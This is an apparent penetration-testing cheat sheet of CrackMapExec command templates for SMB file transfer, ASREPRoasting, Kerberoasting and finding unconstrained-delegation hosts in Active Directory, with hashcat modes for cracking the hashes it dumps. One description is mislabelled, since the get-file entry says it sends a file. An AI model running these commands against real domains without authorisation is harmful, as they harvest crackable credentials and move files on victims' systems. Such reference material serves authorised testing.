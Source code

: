 ## cme - put file
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
cme smb <target_ip> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```

## cme - get file
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
cme smb <target_ip> -u <user> -p <password> --get-file <remote_path|\\Windows\\Temp\\target.txt> <local_file>
```

## cme - ASREPRoast enum without authentication
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

User can be a wordlist too (user.txt)
Hashcat format  -m 18200 

```bash
cme ldap <target_ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## cme - ASREPRoast enum with authentication
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON  

Hashcat format  -m 18200 

```bash
cme ldap <target_ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## cme - Kerberoasting
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

Hashcat format  -m 13100

```bash
cme ldap <target_ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_ip>
```

## cme - Unconstrained delegation
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

List of all computers et users with the flag TRUSTED_FOR_DELEGATION

```bash
cme ldap <target_ip> -u <user> -p '<password>' --trusted-for-delegation
```
